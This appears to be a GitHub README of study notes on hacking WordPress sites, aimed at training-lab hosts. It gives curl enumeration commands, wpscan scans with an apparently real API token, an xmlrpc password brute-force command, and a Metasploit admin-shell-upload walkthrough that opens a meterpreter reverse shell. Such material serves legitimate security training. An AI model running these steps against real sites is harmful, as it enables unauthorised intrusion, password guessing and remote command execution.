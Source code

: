 # Hacking-Wordpress

# Enumeration Procedure For Wordpress Website in Manually

### Wordpress Version Check

Check Wordpress Version using given below curl command or seeing source code

    commnad:
            curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'
        
 Also check WP Version - CSS and WP Version - JS version from Source Code 
 
### Plugins and Themes Enumeration

Commnad For Plugins: 
      
      curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2
 
Command For Themmes:
      
      curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
      
    
#### User Enumeration
Enumerating a list of valid users is a critical phase of a WordPress security assessment. Armed with this list, we may be able to guess default credentials or perform a brute force password attack. If successful, we may be able to log in to the WordPress backend as an author or even as an administrator. This access can potentially be leveraged to modify the WordPress website or even interact with the underlying web server.

Command :
        
        curl http://blog.inlanefreight.com/wp-json/wp/v2/users
         
         
 
# Enumeration Procedure For Wordpress Website in Automatically Using wpscan
WPScan is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a WordPress site are outdated or vulnerable. It is installed by default on Parrot OS ,Kali OS but can also be installed manually with gem
         gem install wpscan
Once the installation completes, we can issue a command such as wpscan --hh to verify the installation. This command will show us the usage menu with all of the available command-line switches available.
### Enumerating a Website with WPScan
The --enumerate flag is used to enumerate various components of the WordPress application such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to specific components. For example, all plugins can be enumerated using the arguments --enumerate ap. Let's run a normal enumeration scan against a WordPress website.
Command :

            wpscan --url http://blog.inlanefreight.com --enumerate --api-token api-token-value
Example :
 
            wpscan --url http://10.129.2.37/ --enumerate --api-token cs0QRHwsYE6RvLd6SaHDhI1dmNX8ZVLEx0Fb7mNid9s
            
      
##### Note: Api Token Generator Link https://wpscan.com/


# Exploiting a Vulnerable Plugin
If we are checking and testing properly of our target wordpress website and if  target wordpress website is vulneable we will see some CVE or Exploite information after using above wpscan command
### WordPress User Bruteforce
WPScan can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, xmlrpc and wp-login. The wp-login method will attempt to brute force the normal WordPress login page, while the xmlrpc method uses the WordPress API to make login attempts through /xmlrpc.php. The xmlrpc method is preferred as it is faster.
Command :
          wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
          
#### Note: use username and password in http://sitename/login path
          
# Remote Code Execution (RCE) via the Theme Editor 

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on Appearance on the side panel and select Theme Editor. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

# Attacking WordPress with Metasploit
We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.
###### To obtain the reverse shell, we can use the wp_admin_shell_upload module. We can easily search for it inside MSF:

        msf5 > search wp_admin

###### Matching Modules

0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
###### Module Selection:
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >

###### Module Options
                  
        msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

##### Module options (exploit/unix/webapp/wp_admin_shell_upload):


       PASSWORD                    yes       The WordPress password to authenticate with
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      80               yes       The target port (TCP)
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                yes       The base path to the wordpress application
       USERNAME                    yes       The WordPress username to authenticate with
       VHOST                       no        HTTP server virtual host


Exploit target:

       Id  Name
       --  ----
       0   WordPress
    
#### set and Exploitation
   
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

meterpreter > getuid
Server username: www—data (33)
## Practicing Sites:
                  https://tryhackme.com/room/allinonemj
                  https://tryhackme.com/room/wordpresscve202129447
